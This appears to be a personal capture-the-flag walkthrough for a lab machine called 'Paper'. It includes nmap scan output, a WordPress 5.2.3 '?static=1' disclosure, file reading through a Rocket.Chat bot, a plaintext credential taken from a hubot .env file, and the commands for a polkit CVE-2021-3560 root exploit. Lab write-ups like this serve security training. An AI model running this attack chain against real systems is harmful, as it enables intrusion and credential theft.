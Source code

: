 # nmap 
```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 08:58 CDT
Nmap scan report for 10.129.136.31
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| http-methods: 
|_  Potentially risky methods: TRACE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.83 seconds


```

# Found a custom header from the homepage which contains a domain name

> office.paper


![[Pasted image 20241030222706.png]]

- Site uses wordpress v 5.2.3 which has a vulnerability that discloses secret data by adding a parameter ?static=1
- https://www.exploit-db.com/exploits/47690  

# Found a subdomain http://chat.office.paper/register/8qozr226AhkCHZdyY 

> registered an account, it uses rocketchat, has bot that list and reads server files 

# credentials found ../hubot/.env

```shell
recyclops:Queenofblad3s!23
```

# Privesc https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation 

```shell
./poc.py -p=test123
# -p=<password>
su - secnigma
#as secnigma 
sudo bash

```